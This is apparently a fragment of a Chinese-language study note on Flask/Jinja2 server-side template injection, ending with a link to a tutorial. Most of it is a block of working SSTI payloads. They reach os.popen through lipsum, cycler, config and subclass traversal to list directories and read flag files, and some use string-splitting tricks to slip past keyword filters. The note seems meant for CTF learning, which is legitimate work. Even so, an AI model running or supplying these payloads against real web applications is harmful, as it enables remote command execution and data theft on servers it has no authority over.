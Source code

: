 ```python

# 测试
print("Hex with slashes:", string_to_hex_with_slashes(normal_string))
```



直接方法

```python
{{lipsum.__globals__['os'].popen('tac ../flag').read()}}
{{lipsum.__globals__['o''s']['po''pen']('ls').read()}}
#request对象的方法绕过

{{cycler.__init__.__globals__.os.popen('ls /').read()}}

{{ config.__class__.__init__.__globals__['o''s']['pop''en']('ls /').read() }}                                                                                                                                                                                                       


#flask
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag.txt').read()")}}{% endif %}{% endfor %}
                                                                                                                                                                                                        
{{ config.__class__.__init__.__globals__['os'].popen('ls /').read() }}                                                                                                                                                                                                       
```

...

还有很多很多

见下一讲

## 参考文章&学习资料
+ 跳跳糖社区

[FLask SSTI从零到入门 - 跳跳糖](https://tttang.com/archive/1698/)





